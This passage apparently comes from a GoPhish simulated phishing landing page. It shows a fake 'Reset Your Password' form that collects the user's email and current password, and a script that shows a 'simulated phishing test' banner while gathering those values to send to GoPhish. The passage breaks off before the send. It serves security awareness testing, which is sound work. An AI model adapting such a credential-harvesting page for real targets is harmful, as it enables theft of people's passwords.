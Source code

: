         .form-group { margin-bottom: 15px; }
        label { display: block; margin-bottom: 5px; font-weight: bold; }
        input[type="password"] { width: 100%; padding: 8px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box; }
        button { background-color: #4CAF50; color: white; border: none; padding: 10px 15px; border-radius: 4px; cursor: pointer; width: 100%; }
        .alert { padding: 10px; background-color: #f44336; color: white; margin-bottom: 15px; border-radius: 4px; display: none; }
    </style>
</head>
<body>
    <div class="container">
        <div class="logo">
            <img src="https://example.com/logo.png" alt="Company Logo">
        </div>
        
        <h2>Reset Your Password</h2>
        
        <div id="alert" class="alert">
            This was a simulated phishing test. In a real scenario, your credentials could have been stolen.
        </div>
        
        <form id="resetForm">
            <div class="form-group">
                <label for="email">Email Address</label>
                <input type="email" id="email" name="email" value="{{.Email}}" readonly>
            </div>
            
            <div class="form-group">
                <label for="current">Current Password</label>
                <input type="password" id="current" name="current" required>
            </div>
            
            <div class="form-group">
                <label for="new">New Password</label>
                <input type="password" id="new" name="new" required>
            </div>
            
            <div class="form-group">
                <label for="confirm">Confirm New Password</label>
                <input type="password" id="confirm" name="confirm" required>
            </div>
            
            <button type="submit">Reset Password</button>
        </form>
    </div>
    
    <script>
        document.getElementById('resetForm').addEventListener('submit', function(e) {
            e.preventDefault();
            document.getElementById('resetForm').style.display = 'none';
            document.getElementById('alert').style.display = 'block';
            
            // Send data to GoPhish
            var formData = {
                email: document.getElementById('email').value,
                password: document.getElementById('current').value
            };
            